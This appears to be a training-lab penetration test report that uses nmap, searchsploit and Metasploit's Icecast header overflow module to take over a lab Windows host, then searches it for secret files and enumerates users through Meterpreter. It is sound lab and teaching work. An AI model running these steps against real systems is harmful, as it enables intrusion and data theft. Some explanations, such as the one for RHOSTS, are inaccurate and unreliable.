     GoodSecurity Penetration Test Report 

    Abdisalan-Firin@GoodSecurity.com

    DATE
    11/01/2021

 ### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.
When performing the internal penetration test, there were several alarming vulnerabilities that were
identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploit two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.
       2.0 Findings

### Machine IP:
    192.168.0.20
### Hostname:
    MSEDGEWIN10
### Vulnerability Exploited:
    Exploit/windows/http/icecast_header

    Vulnerability Explanation:

The Vulnerability i found Icecast application running on 192.168.0.20 allows for a buffer overflow exploit and any attacker can remotely gain control of the victim’s system by overwriting the memory on the system utilizing the Icecast flaw, which writes past the end of a pointer array when receiving 32 HTTP headers. this will overwrite the saved instruction pointer and leave Icecast thinking one of the processor threads is still occupied by one of its methods; in reality, the running process is a malicious payload.

Some remote actions able to be executed are:

    File discovery
    Key logging 
    screen capture
    Privilege escalation to Administrator 
I also find this vulnerable to the following exploits:

    exploit/windows/local/ikeext_service
    exploit/windows/local/ms16_075_reflection

### Severity:

This exploit is very severe and Critical as it allows malicious actors to run any manor of arbitrary code on the host’s machine.

### Proof of Concept:

1. Perform a service and version scan using Nmap to determine which services are up and running: 
    nmap -sS -sV -O 192.168.0.20

nmap -sS it stands for TCP SYN port scan, where the -sV for is determine the version of the service running on port, and that the -O is the Remote OS detection using TCP/IP.
After scanning networks for vulnerabilities, we can execute the exploits that we know an organization is vulnerable to.

    Using nmap to scan the system to see any port open
 ![using nmap to scan the system](./Images/snep-1.PNG)


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
   
     searchsploit -t Icecast windows
<Result> (exploits/windows_x86/remote/16763.rb)

Now we’ll use a tool called SearchSploit to locally store a library of exploit information and the scripts used to execute the exploits.


    Icecast exploits
![icecast exploits](./Images/snap-2.PNG)


3. Start Metasploit and search for the Icecast module and load it for use.:
 
    >Msfconsole.
    
    >Search icecast.
    
    >Use 0.

MSFconsole provides a command line interface to access and work with the Metasploit.
The Metasploit is a computer security that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. 

    starting metasploit and searching icecast
 ![RHOST setting](./Images/snap-x.PNG)
 
 ![Metasploits](./Images/snap-3.PNG)

 ![Metasploits](./Images/snap-y.PNG)

4. Set the `RHOST` to the target machine and run.

    set RHOSTS 192.168.0.20.
    run.

 Rhosts allows me to log in to a UNIX-based system from another computer on the same network.
 The rhosts file contains a list of hosts and user names that determines who can log in to a system remotely without a password

    Setting RHOST to IP adress
![RHOST setting](./Images/snap-4.PNG)


5. Search for the `secretfile.txt` on the target.

    meterpreter > search -f *secret*.
OR
    meterpreter > shell.

Meterpreter allows me to remotely take over the compromised system, having control of the file system, collect sensitive information such as credentials and secret files.
    
    The search of the secret 
![The search of secret file](./Images/snap-5.PNG)

![The search of secret file](./Images/snap-xy.PNG)

6. Search for the `recipe.txt` on the target and download the file:
    meterpreter > search -f *recipe*
    meterpreter > cd 'C:\Users/IEUser/Documents
    meterpreter > ls
    meterpreter > cat Drinks.recipe.txt
    meterpreter > cat user.secretfile.txt

    Search of the recipe
    ![search of the recipe](./Images/snap-6.PNG)
    
    ![search of the recipe](./Images/snap-f.PNG)

7. Use Meterpreter's local exploit suggester to find possible exploits.
    
    meterpreter> run post/multi/recon/local_exploit_suggestor

The system was also found to be vulnerable to the following exploits:
    
    exploit/windows/local/ikeext_service
    exploit/windows/local/ms16_075_reflection

    Using meterpreter for local exploit
   ![Using meterpreter for local exploit](./Images/snap-7.PNG)

8. Run a Meterpreter post script that enumerates all logged on users.
    
    run post/windows/gather/enum_logged_on_users
    
    
    Using meterpreter post script
  ![Using meterpreter post script](./Images/snap-8.PNG)

9. Running the sysinfo command
 
    system info
 ![sysinfo](./Images/snap-9.PNG)

 ![sysinfo](./Images/snap-a.PNG)
 
 ![sysinfo](./Images/snap-b.PNG)

### Overall Recommendations

Icecast exploit is old and the vulnerability can be fixed with a patch or Install the latest version of this and all other software.
Encrypt the files and folders that you want to keep a secret
Enable the windows firewall with rules to only explicitly allow traffic on needed ports.